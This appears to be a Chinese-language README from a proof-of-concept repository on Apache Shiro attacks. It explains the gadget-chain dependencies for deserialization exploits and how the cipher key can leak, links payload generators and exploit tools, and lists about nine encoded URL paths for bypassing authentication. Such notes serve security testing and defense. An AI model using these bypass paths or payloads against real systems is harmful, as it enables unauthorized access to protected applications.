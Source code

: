 ## Shiro反序列化
- [Java版payload生成](https://github.com/shadowsock5/Poc/blob/master/Shiro/ShiroDeser.java)
- [Python版payload生成](https://github.com/shadowsock5/Poc/blob/master/Shiro/shiro_deser.py)

### 反序列化利用链
从Shiro-core官方的pom.xml文件中可以看出，在项目通过pom.xml引入shiro-core时，会自动引入commons-beanutils。当shiro-core的版本改变时，CB的版本也会随之改变。通过测试发现，shiro从1.2.4到1.3.2依赖的都是CB-1.8.3。而在shiro-1.3.2的下一个版本1.4.0中依赖的CB是1.9.3，从这个shiro版本开始，引入shiro依赖的项目会依赖CC3.2.2。
参考：
- https://github.com/apache/commons-beanutils/blob/BEANUTILS_1_9_1/pom.xml#L278
- https://github.com/apache/shiro/blob/shiro-root-1.4.0/pom.xml#L832
- https://github.com/apache/shiro/blob/shiro-root-1.3.2/pom.xml
- https://github.com/apache/shiro/blob/shiro-root-1.2.4/pom.xml#L617

### 说明
- 1.2.4的key硬编码在`org\apache\shiro\mgt\AbstractRememberMeManager.java`这个文件里；
- 1.2.4以上（1.2.5开始）的key在AbstractRememberMeManager构造方法里是这样写的：
```java
this.setCipherKey(cipherService.generateNewKey().getEncoded());
```
可以直接调这个接口，这样得到的key就是随机的。当然开发者也可以通过配置文件配置，比如`shiro.ini`, `xxx-shiro-xml`等制定一个自己实现的RememberMeManager（继承自`CookieRememberMeManager`），然后`applications.properties`里面配置这个硬编码的seed。如果攻击者知道了这个seed，可以方便地拿到shiro的key。
- 1.4.2以后，从`CBC`模式变成了`GCM`模式，需要相应地修改一下代码。


## Shiro权限绕过
比如想要访问的敏感url为：
```
/admin/index
```
假设`/static` 路径不需要认证即可访问。

绕过姿势：
- /admin/index%2f
- /;/admin/index
- /static;/admin/index
- /static;/../admin/index
- /static/..;/admin/index
- /admin/index%25%32%46index
- /admin/%3bindex
- /admin/%20 或/admin/%20/
- /admin/%2e 或/admin/%2e/


## 参考
- https://www.cnblogs.com/loong-hon/p/10619616.html
- https://www.codenong.com/cs106643678/
- [Shiro权限验证绕过史](https://s31k31.github.io/2020/08/20/Shiro_Authentication_Bypass/)
- [Shiro反序列化漏洞笔记二（检测篇）](http://xiashang.xyz/2020/09/05/Shiro%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E7%AC%94%E8%AE%B0%E4%BA%8C%EF%BC%88%E6%A3%80%E6%B5%8B%E7%AF%87%EF%BC%89/)
- [深入利用Shiro反序列化漏洞](https://xz.aliyun.com/t/8445)
- https://github.com/apache/shiro/blob/8751ce1c31848efa96242099ba908bd110540246/RELEASE-NOTES#L163
- https://github.com/apache/shiro/blob/323698ed6e22e417a5e86e367906cddb29932bbe/crypto/cipher/src/main/java/org/apache/shiro/crypto/cipher/AesCipherService.java
- https://jkme.github.io/cve-2016-6802-exp.html
- [Apache Shiro 两种姿势绕过认证分析（CVE-2020-17523）](https://paper.seebug.org/1478/)

## Shiro反序列化利用工具
- https://github.com/Ares-X/shiro-exploit
- https://github.com/feihong-cs/ShiroExploit-Deprecated
- https://github.com/wyzxxz/shiro_rce
- https://github.com/pmiaowu/BurpShiroPassiveScan
- https://github.com/potats0/shiroPoc
- https://github.com/fupinglee/ShiroScan
